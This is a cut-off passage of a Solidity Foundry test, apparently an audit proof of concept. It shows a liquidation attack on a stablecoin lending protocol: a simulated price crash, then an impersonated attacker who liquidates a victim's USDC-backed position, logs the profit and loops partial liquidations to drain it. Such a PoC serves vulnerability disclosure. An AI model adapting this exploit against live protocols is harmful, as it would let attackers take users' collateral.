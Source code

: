 ```solidity 
            
            bool isLiquidatable = stablesMgr.isLiquidatable(address(usdc), victimHolding);
            require(isLiquidatable, "Position should be liquidatable after crash");
            emit log_named_string("  Status", "LIQUIDATABLE");
        }
        
        // Step 3: Execute liquidation attack
        {
            emit log("");
            emit log("STEP 3: LIQUIDATION ATTACK EXECUTION");
            
            // Fund attackers
            deal(address(jUsd), attacker, 1000e18);
            
            uint256 liquidationAmount = 100e18; // INCREASED: Liquidate 100 jUSD (still partial)
            
            vm.startPrank(attacker);
            uint256 collateralReceived = liquidationMgr.liquidate(
            victim,
            address(usdc),
            liquidationAmount,
                0, // Accept any amount
            ILiquidationManager.LiquidateCalldata({
                strategies: new address[](0),
                strategiesData: new bytes[](0)
            })
            );
            vm.stopPrank();
            
            // Calculate liquidator profit  
            uint256 debtRepaid = liquidationAmount;
            uint256 collateralValue_received = (collateralReceived * 40) / 100; // At $0.40 USDC price
            uint256 liquidatorProfit = 0;
            
            if (collateralValue_received > debtRepaid) {
                liquidatorProfit = collateralValue_received - debtRepaid;
            }
            
            emit log("");
            emit log("=== LIQUIDATION RESULTS ===");
            emit log_named_uint("  jUSD Debt Repaid", debtRepaid / 1e18);
            emit log_named_uint("  USDC Received", collateralReceived / 1e6);
            emit log_named_uint("  USDC Value (at $0.40)", collateralValue_received / 1e18);
            emit log_named_uint("  Liquidator Profit (USD)", liquidatorProfit / 1e18);
            if (debtRepaid > 0) {
                emit log_named_uint("  Profit Margin (%)", liquidatorProfit * 100 / debtRepaid);
            }
        }
        
        // Step 4: Demonstrate multiple liquidations can drain position
        {
            emit log("");
            emit log("STEP 4: DEMONSTRATING PARTIAL LIQUIDATION DRAIN");
            
            for (uint256 round = 1; round <= 5; round++) {
                uint256 currentDebt = usdcRegistry.borrowed(victimHolding);
                uint256 currentCollateral = usdcRegistry.collateral(victimHolding);
                
                if (currentDebt == 0 || currentCollateral == 0) break;
                
                uint256 partialAmount = 100e18; // INCREASED: 100 jUSD each round (but debt is now 700+ jUSD)
```